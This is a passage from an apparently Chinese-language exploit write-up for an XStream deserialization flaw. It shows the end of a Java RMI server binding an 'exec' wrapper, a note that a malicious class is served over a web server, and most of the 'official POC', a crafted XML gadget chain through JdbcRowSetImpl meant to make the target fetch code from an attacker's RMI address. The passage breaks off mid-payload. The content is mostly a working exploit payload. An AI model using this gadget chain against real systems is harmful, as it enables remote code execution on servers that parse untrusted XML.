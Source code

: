 ```plain
        registry.bind("exec", wrapper);
    }
}
```

test是一个恶意类，在其对应的文件夹开启web服务  
POC：官方给出的POC，需要修改其里面的RMI地址

```plain
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
                      <maxFieldSize>0</maxFieldSize>
                      <maxRows>0</maxRows>
```